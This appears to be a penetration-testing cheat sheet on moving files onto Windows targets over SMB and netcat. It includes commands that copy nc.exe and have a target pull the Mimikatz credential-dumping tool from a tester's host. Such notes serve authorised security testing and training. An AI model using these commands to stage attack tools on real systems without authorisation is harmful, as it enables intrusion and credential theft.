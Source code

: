 SMB is a good option for file transfers, as on Windows as you don’t need to install anything. SMB traffic features prominently on networks, and SMB file transfers to Windows computers are expected. Unfortunately, it’s also the case that outbound SMB traffic is often allowed through the external firewall. In case SMB traffic through the firewall has been restricted, WebDAV may be a good option, as it relies on HTTP as a transport protocol. Some common tools that support file transfers from SMB and WebDAV shares are reviewed below.

See [[TechLexicon/Penetration Testing/Reference/P3nT3sT/Webservers/smb]]

## PowerShell
### Copy-Item
````powershell
Copy-Item -Path C:\Temp\nc.exe -Destination C:\Temp\nc.exe -ToSession $session
````
### Set-Content
````powershell
$file = Get-Content C:\Temp\nc.exe -Raw
Invoke-Command -ComputerName 10.10.10.132 -ScriptBlock {Set-Content -Path C:\Temp\nc.exe -value $using:file}
````
### Copy / xcopy / robocopy
````powershell
xcopy \\10.10.10.132\share\nc.exe nc.exe
copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe
````
### Map / Mount Drives
````powershell
net use Q: \\10.10.10.132\share
pushd \\10.10.10.132\share
mklink /D share \\10.10.10.132\share
````
## Map / Mount Drives
````powershell
smbclient //10.10.10.132/share -U username -W domain
````
## Netcat
Netcat is a very versatile tool that also allows file transfers. The target or attacking machine can be used to initiate the connection, which is useful if a firewall prevents access to the target. The commands below both result in Mimikatz being transferred to the target computer.

### Connection Initiated by Pentester
````bash
nc -nlvp 8000 > mimikatz.exe
````

````bash
nc -nv 10.10.10.132 8000 <mimikatz.exe
````
### Connection Initiated by Target
````bash
nc -nv 10.10.10.32 8000 > mimikatz.exe
````

